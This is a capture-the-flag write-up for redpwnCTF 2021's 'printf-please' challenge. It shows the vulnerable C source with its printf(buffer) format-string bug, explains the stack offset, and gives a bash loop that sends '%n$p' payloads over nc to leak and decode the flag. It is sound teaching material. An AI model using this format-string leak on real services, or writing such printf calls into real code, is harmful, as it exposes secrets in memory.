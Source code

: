 # redpwnCTF 2021

## printf-please

> NotDeGhost
> 
> rob keeps making me write beginner pwn! i'll show him...
>
> `nc mc.ax 31569`
>
> [please](please) [please.c](please.c)


Tags: _pwn_ _x86-64_ _format-string_


## Summary

Classic leak the flag from the stack.


## Analysis

### Source Included

```c
#include <stdio.h>
#include <fcntl.h>

int main(void)
{
  char buffer[0x200];
  char flag[0x200];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  memset(buffer, 0, sizeof(buffer));
  memset(flag, 0, sizeof(flag));

  int fd = open("flag.txt", O_RDONLY);
  if (fd == -1) {
    puts("failed to read flag. please contact an admin if this is remote");
    exit(1);
  }

  read(fd, flag, sizeof(flag));
  close(fd);

  puts("what do you say?");

  read(0, buffer, sizeof(buffer) - 1);
  buffer[strcspn(buffer, "\n")] = 0;

  if (!strncmp(buffer, "please", 6)) {
    printf(buffer);
    puts(" to you too!");
  }
}
```

The flag is read into `flag` (on stack).  To read, use the `printf(buffer)` vuln to read any arbitrary value from the stack with `%xx$p` where `xx` starts at `06` (top of stack). Since `buffer` is allocated first, you'll need to start at `0x200 / 8 + 6` (70).

> Oh, don't for get to start with `please` :-)


## Exploit

```bash
#!/bin/bash

for ((i=70;;i++)) {
    B=$(echo 'please %'$i'$p' | nc mc.ax 31569 | grep please | awk '{print $2}')
    if echo $B | grep '7d' >/dev/null 2>&1
    then
        echo $B | sed 's/.*7d/7d/' | xxd -r -p | rev; echo
        break
    fi
    echo $B | awk -Fx '{print $2}' | xxd -r -p | rev
}
```


Output:

```bash
# ./sol.sh
flag{pl3as3_pr1ntf_w1th_caut10n_9a3xl}
```

